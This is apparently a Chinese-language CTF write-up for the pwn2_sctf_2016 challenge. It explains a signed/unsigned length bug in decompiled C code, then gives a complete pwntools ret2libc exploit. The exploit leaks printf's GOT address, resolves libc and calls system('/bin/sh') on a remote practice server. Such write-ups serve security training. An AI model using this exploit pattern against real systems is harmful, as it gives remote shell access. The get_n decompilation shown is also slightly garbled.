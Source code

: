 ```yaml
---
layout: post
title:  pwn2
date:   2021-02-02 00:01:01 +0300
image:  2021-02-02-white.jpg
tags:   [ctf,Pwn,sctf2016]
---
```


main

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  return vuln();
}
```

vuln()

```assembly
int vuln()
{
  char nptr; // [esp+1Ch] [ebp-2Ch]
  int v2; // [esp+3Ch] [ebp-Ch]

  printf("How many bytes do you want me to read? ");
  get_n(&nptr, 4);
  v2 = atoi(&nptr);
  if ( v2 > 32 )
    return printf("No! That size (%d) is too large!\n", v2);
  printf("Ok, sounds good. Give me %u bytes of data!\n", v2);
  get_n(&nptr, v2);
  return printf("You said: %s\n", &nptr);
}
```

数据长度最多32，无法溢出。

get_n()

```assembly
int __cdecl get_n(int a1, unsigned int a2)
{
  int v2; // eax
  int result; // eax
  char v4; // [esp+Bh] [ebp-Dh]
  unsigned int v5; // [esp+Ch] [ebp-Ch]

  v5 = 0;
  while ( 1 )
  {
    v4 = getchar();
    if ( !v4 || v4 == 10 || v5 >= a2 )
      break;
    v2 = v5
    
    *(_BYTE *)(v2 + a1) = v4;
  }
  result = a1 + v5;
  *(_BYTE *)(a1 + v5) = 0;
  return result;
}
```

在vuln()函数中v2变量本来是int类型，但是传入get_n()中变为了unsigned int无符号整数类型，这意味着如果给get_n()第二个参数传入负数，它会变成模intMAX的值。因此可以利用这点来使得vuln()中可以溢出。

程序中存在printf()函数，可以通过其来泄露函数的got地址，但是printf()与write()和puts()不同，要给它传入一个带有"%s"的字符串作为参数，而此程序中正好可以找到。

```assembly
from pwn import *
from LibcSearcher import *

elf = ELF("./pwn2_sctf_2016")

io = remote("node3.buuoj.cn",27281)

io.recvuntil('How many bytes do you want me to read? ')
io.sendline("-1")


printf_plt = 0x08048370
printf_got = elf.got["printf"]

main = 0x80485b8
format_str = 0x080486F8
io.recvuntil('bytes of data!\n')
payload = "a" * (0x2c + 4) + p32(printf_plt) + p32(main) + p32(format_str) + p32(printf_got)
io.sendline(payload)

io.recvuntil('said: ')
io.recvuntil('said: ')

printf_addr = u32(io.recv(4))
print(printf_addr)

'''
io.recvuntil('How many bytes do you want me to read? ')
io.sendline("-1")

atoi_got = elf.got["atoi"]
payload = "a" * (0x2c + 4) + p32(printf_plt) + p32(main) + p32(format_str) + p32(atoi_got)
io.sendline(payload)

io.recvuntil('said: ')
io.recvuntil('said: ')

atoi_addr = u32(io.recv(4))
print(atoi_addr)
'''

io.recvuntil('How many bytes do you want me to read? ')
io.sendline("-1")

libc = LibcSearcher("printf", printf_addr)
base = printf_addr - libc.dump("printf")
system = base + libc.dump("system")
binsh = base + libc.dump("str_bin_sh")

payload = "a" * (0x2c + 4) + p32(system) + p32(main) + p32(binsh)
io.sendline(payload)

io.interactive()

```

满足条件的libc太多，试到第10个才通过。

![]({{site.baseurl}}/img/2021-02-02-flag.jpg)